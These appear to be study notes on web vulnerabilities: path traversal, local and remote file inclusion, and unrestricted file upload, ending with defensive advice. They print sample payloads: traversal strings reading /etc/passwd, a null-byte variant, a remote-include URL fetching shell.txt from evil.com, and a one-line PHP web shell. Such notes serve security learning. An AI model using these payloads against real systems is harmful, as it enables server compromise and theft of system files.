

---


[TOC]


### Path Traversal


> Some web applications needs to access resources on the File System to implement the web application ( such  as *images,static text and so on*)

> Sometime they use *parameters* to define the **resources**


> When these *parameters*  are **user-controlled** => and not sanitized properly =>  and are used to build the resource path on the File System =>  Then Security Issues arise


* ### Example

  * 
  * 
  * If the Web Application does not **sanitize**  the *parameter* properly,  an attacker could *manipulate* it to access the *contents*  of any  arbitrary file
    * (access resources that are not intended to be accessed).
  * 
  * 


* 


* 


* 


* 


* 


* 


* 


* 


* 


* 


---


### File Inclusion Vulnerabilities


> File Inclusion Vuln =>  **Remote**  & **Local**    [LFI] & [RFI]
>
>
> Depend on where the file to include is located
>
> 
>
>
> LFI =>  against the first  Perl CGIs =>
>
> ```
> visit.pl?url=../../../../etc/passwd
> ```
>
> 

> 


> Common in old time  and still can be found in *custom scripts* where path characters are not *stripped*  from the input and the input is used as part of an **include**


* Example

  * Target application => http://target.site/index.php?location=IT

    * This changes its contents depending ont the **location** of the visitor

  * PHP Code that handles the parameter => 

    ```
    <?php
    	include("loc/" . $_GET['location']);
    ?>
    ```

  * There, we can see that we can enter any valid local path-to-file to have the PHP include it in the response to our browser

    * ```
      index.php?location=../../../etc/passwd
      ```

  * This will go up 3 directories and then return **etc/passwd** => which will return Unix password file

  * 

  * If, instead, the code looks like this => 

    ```
    <?php
    	include($_GET['location'] . "/template.tlp");
    ?>
    ```

  * A valid exploit would be: 

    ```
    index.php?location=../../../etc/passwd%00
    ```

  * **%00** => null character that terminates the string


* This type of vulnerabilities usually found in  little custom made CMS's where pages are loaded with  an **include** and their paths taken from the input


> 


> **RFI** works in same way as **LFI**
>
> ​	Difference =>  in RFI => File to be included is pulled *remotely*

> In **RFI** aim is =>  not just to read, but to include our own code in the execution
>
> ```
> Example =>
> 
> vuln.php?page=http://evil.com/shell.txt
> ```


> **shell.txt**  contain PHP Code will included in the page and will be executed


> Common exploit is ti include PHP Shell that would let the hacker execute any code on the server


> Even the simplest PHP shell will accept commands from GET/POST arguments and execute them on the server.


* 


* 
* 
* 
* 


---


### Unrestricted File Upload


> This vulnerability affects all those web applications that allow the upload of files without properly enforcing restrictive polices on :
>
> 
>
> * The maximum size of the file (DoS)
> * The nature of the file (if Image, PDF, XLS...)


> If web applications do not implement proper restriction on files uploaded by the user, the risks of being compromised is very high.


> Impact depends upon how the file is used by the web application, an attacker may be able to acquire complete control of the syste


* Example

  * Suppose target web application is both hosted on the domain **http://fileupload.site**  and an authenticated user can upload a personal image on his/her profile page

  * Suppose that the upload occurs through a POST method at this page 

    ```
    http://fileupload.site/uploadImage.php
    ```

  * and that the new image will be available by requesting the URL => 

    ```
    http://fileupload.site/images/<FileNameAsUploadedByTheUSER>
    ```

  * So, If the web application does not peform  checks on the  **file type uploaded** , an attacker could upload a shell and execute it by browsing to the uploaded file 

    * (if the path and file name is predictable or known)

    * ```
      <?php
      exec($_GET[‘command’]);
      ?>
      ```

  * Then => **http://fileupload.site/images/myshell.php?command=<COMMAND>**

    * this way we can launch arbitrary OS commands by specifying them in the URL


> Attacker can :
>
> 
>
> * create phishing pages
> * deface the web application
> * Store XSS
> * Upload malicious files


> ### The Attack


* First understand how the application works, where the file is stored and both how it is used and included in the  web application itself
  * 
* 
* 
* 
* 
* 


> 


> The best defense is to actually determine the file type by inspecting the content of the uploaded file
>
>
> this can be achieved using libraries for binary formats or parsers for text files
>
> 
>
> *However this is not the only recommendation.*


> Web developers must limit the file size as well as the file name, set proper permission on the upload folder, filter and discard special characters, use virus scanners and so on.


---

